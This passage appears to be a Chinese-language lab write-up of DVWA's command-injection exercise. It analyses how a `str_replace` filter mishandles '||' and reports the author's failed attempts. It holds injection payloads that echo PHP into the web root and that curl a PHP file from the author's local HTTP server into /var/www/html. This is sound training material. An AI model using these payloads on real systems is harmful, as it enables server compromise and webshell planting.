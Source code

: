 结果是`ping -c 4 notexists |echo 123`。看起来是 `str_replace` 的用法有误，导致实际替换掉的是 `|` 而不是 `||`。

php 官方文档（8.1）如是说：

> If `search` and `replace` are arrays, then **str_replace()** takes a value from each array and uses them to search and replace on `subject`. If `replace` has fewer values than `search`, then an empty string is used for the rest of replacement values. If `search` is an array and `replace` is a string, then this replacement string is used for every value of `search`. The converse would not make sense, though.

DVWA 容器的 PHP 版本是 7.0 ，姑且当没变。那问题就在于 `str_replace` 的替换方法了，我猜......当 `search` 是 `array` 的时候，`str_replace` 实际是这样干的：

```go
for _, pattern := range search {
    subject = replace(pattern, subject)
}
```

简单实验验证下。

```php
<?php
echo str_replace(array("a","ab"),"c","aabbcc"); // ccbbcc
```

但即使如此，也应该替换掉 `||` 两个字符才对啊...

最后才发现，替换的模式是 `| `（在`|`后面多一个空格），所以只替换掉了 `|| `的后一个 `| `......

事实证明视力还是很重要的，少打sc2，没瞎早该看到了。

据此可以再改一改 payload，已知 `||`会被替换成 `|`，管道运算符会把上一个命令的输出接到下一个命令的 stdin 输入。正好，`echo` 不读 stdin，直接`echo '<?php phpinfo(); ?>' > /var/www/html/1.php` 的方法应该不受影响。

![image-20220422160740919](image-20220422160740919.png)

倒是没报 404，可是白屏了。从 DVWA 的日志观察到下面的记录：

```plaintext
[Fri Apr 22 08:07:20.601596 2022] [:error] [pid 312] [client 10.0.2.2:51105] PHP Notice:  Use of undefined constant phpinfo - assumed 'phpinfo' in /var/www/html/2.php on line 1
```

这倒是很新鲜，`phpinfo`不应该是全局的吗？

> 我又傻逼了。

经过十几分钟的脑残式思考，忽然意识到 `(` 和 `)` 也在过滤清单里，哦淦！好吧，直接在这里注入 php 代码看来限制有点太多了，插个`curl`命令让它下载得了。

本地用 `python3 -m http.server`命令启动一个 http 服务器，然后 `ip addr show docker0` 看一眼本机 ip，把 payload 改成 `notexists || curl http://172.17.0.1:8000/2.php -O /var/www/html/2.php` ，先找个 playground 试一试过滤后的命令是什么样。
